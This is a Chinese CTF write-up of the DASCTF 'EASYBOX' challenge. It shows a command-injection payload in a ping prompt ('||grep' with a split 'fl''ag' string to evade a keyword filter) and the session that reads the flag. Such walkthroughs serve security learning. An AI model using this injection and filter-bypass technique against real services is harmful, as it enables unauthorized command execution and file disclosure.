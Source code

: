 ```yaml
---
title: DASCTF月赛 - EASYBOX
date: 2023/12/3 12:00:00
tags:
    - noob
excerpt: 通过拼接字符串绕过限制，利用grep获取flag并查看result.txt。
---
```


From CBCTF x DASCTF

## 文件分析

下载`easybox`, NX on, PIE off, Canary on, RELRO partial  
ghidra分析为64位程序

## 解题思路

pingCommand虽然ban了很多字符，但是我们仍可以通过拼接字符串来绕过sh, cat和flag

通过||操作符忽略错误继续执行；  
先ls /bin看看有什么可以利用的程序，发现有grep；  
grep同样可以打印文件；  
"fl""ag"可以把flag拼起来；  
最后用catCommand查看`result.txt`就可以了

## EXPLOIT

```
nc node4.buuoj.cn 26927
 _____    _    ______   ______   _____  __
| ____|  / \  / ___\ \ / / __ ) / _ \ \/ /
|  _|   / _ \ \___ \\ V /|  _ \| | | \  /
| |___ / ___ \ ___) || | | |_) | |_| /  \
|_____/_/   \_\____/ |_| |____/ \___/_/\_\
Canary value saved to canary.txt.
Welcome to the EASYBOX
Please enter your name: yes
Hello! yes
yes@EASYBOX:/home/ctf$ PING
Enter an IP address: ||grep -i f "fl""ag"
sh: 1: ping: not found
Ping result has been saved in /tmp/result.txt
yes@EASYBOX:/home/ctf$ CAT
Enter the filename to view: result.txt
DASCTF{faf97940-0fc1-40af-a539-2ac02898e155}

yes@EASYBOX:/home/ctf$ EXIT
Exiting the program...
```

Done.
